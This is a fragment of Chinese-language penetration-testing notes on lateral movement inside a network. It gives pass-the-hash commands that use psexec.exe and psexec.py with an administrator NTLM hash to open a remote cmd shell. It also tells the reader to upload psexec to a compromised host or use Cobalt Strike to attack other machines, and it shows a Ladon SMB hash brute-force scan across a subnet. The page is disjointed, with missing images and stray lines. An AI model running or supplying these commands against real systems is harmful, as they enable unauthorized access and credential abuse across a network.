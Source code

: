 



![image-20210901114819288](内网渗透/image-20210901114819288.png)

 



```sh
psexec.exe -hashes 0*32:哈希值 administrator@ip cmd 
# exe版登录ipc
------------------------


python psexec.py -hashes 0*32:哈希值 administrator@ip cmd 
#python版登录ipc
```



![image-20210901141229150](内网渗透/image-20210901141229150.png)

![image-20210901142450739](内网渗透/image-20210901142450739.png)

上传psexec.exe到上线主机，或者使用cs中的psexec执行攻击其他主机

```sh
shell ladon.exe 192.168.1.1/24 smbhashscan (自动识别user.txt以及pass.txt)
自动爆破hash值

fsc
```

go build -ldflags="-s -w" -trimpath

## pth

